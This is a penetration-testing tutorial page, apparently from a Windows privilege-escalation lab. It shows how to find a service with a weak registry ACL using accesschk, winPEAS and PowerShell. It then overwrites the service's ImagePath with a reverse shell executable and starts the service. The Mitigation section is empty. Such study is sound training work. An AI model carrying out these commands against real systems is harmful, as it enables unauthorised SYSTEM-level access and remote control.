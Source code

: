 # Weak Registry Permissions

The Windows registry stores entries for each service. Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service’s configuration even if we cannot modify the service directly.

```
accesschk.exe -accepteula -wuvc "Everyone" *
accesschk.exe -accepteula -wuvc "Users" *
accesschk.exe -accepteula -wuvc "Authenticated Users" *
```

Run winPEAS to check for service misconfigurations:

```
winPEASany.exe quiet servicesinfo
```

![](<../../../../.gitbook/assets/image (76).png>)

Note that the “regsvc” service has a weak registry entry. We can confirm this with PowerShell:

```
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
```

![](<../../../../.gitbook/assets/image (87).png>)

Alternatively accesschk.exe can be used to confirm:

```
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

![](<../../../../.gitbook/assets/image (94).png>)

verify that we can start the service:

```
accesschk.exe /accepteula -ucqv user regsvc
```

![](<../../../../.gitbook/assets/image (104).png>)

now lets check the current value of the service registry entry:

```
reg query HKLM\System\CurrentControlSet\Services\regsvc
```

![](<../../../../.gitbook/assets/image (99).png>)

Overwrite the ImagePath registry key to point to our reverse shell executable:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

![](<../../../../.gitbook/assets/image (73).png>)

Start a listener on Kali, and then start the service to trigger the exploit:

```
 net start regsvc
```

![](<../../../../.gitbook/assets/image (95).png>)

## <mark style="color:red;">Mitigation</mark>





